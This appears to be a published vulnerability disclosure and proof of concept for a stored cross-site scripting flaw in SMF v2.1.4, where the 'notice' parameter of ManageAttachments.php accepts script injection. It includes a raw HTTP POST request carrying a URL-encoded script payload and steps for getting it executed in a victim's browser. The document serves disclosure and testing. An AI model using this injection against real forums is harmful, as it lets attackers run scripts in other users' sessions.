 # Exploit Title: SMF v2.1.4 - Cross-Site Scripting (XSS)
## Date: 1/3/2025
## Vendor Homepage: https://github.com/SimpleMachines/SMF
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SimpleMachines
## Version: v2.1.4
## Exploit Description:
## SMF v2.1.4 suffers from Stored Cross-Site Scripting (XSS) Vulnerability in the 'notice' parameter of the 'ManageAttachments.php' script. This vulnerability allows attackers to inject malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------
1. User creates a new post and uploads an attachment
2. Attacker deletes the attachment by age and injects the payload in the 'notice' parameter
```
POST /index.php?action=admin;area=manageattachments HTTP/1.1
...

age=0&notice=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E(INJECT HERE)&remove=%E5%88%A0%E9%99%A4&type=attachments&c07825d64=a3a2b4dce90f74817c84b935881afe62&sa=byAge
```
3. Victim views the post and the payload is executed

